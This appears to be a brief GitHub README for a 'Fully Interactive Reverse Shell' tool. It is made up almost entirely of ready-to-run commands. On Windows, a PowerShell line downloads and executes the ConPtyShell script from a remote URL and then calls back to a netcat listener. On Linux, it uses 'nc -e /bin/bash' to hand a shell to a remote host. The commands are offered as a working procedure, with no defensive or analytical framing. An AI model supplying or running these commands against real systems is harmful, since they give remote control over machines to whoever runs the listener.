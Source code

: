 # Fully-Interactive-Reverse-Shell
## For Windows:

ConPtyShell- a Fully Interactive Reverse Shell for Windows systems.
## Requirements

<p>Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)</p>
<p>Server Side: any tcp listener, i.e. netcat</p>
#### Via Powershell
## Procedure-
#### Server Side:
```
stty raw -echo; (stty size; cat) | nc -lvnp "port" -s "ip"
```
```
example : stty raw -echo; (stty size; cat) | nc -lvnp 88 -s 10.0.0.2
```
#### Client Side:
```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell "ip" "port"
```
```
example : IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.1 88
```

## For Linux
#### via terminal
## Procedure-
#### Server Side:
```
nc -lnvp "port" -s "ip"
```
#### Client Side:
```
nc -e /bin/bash "ip" "port"
```
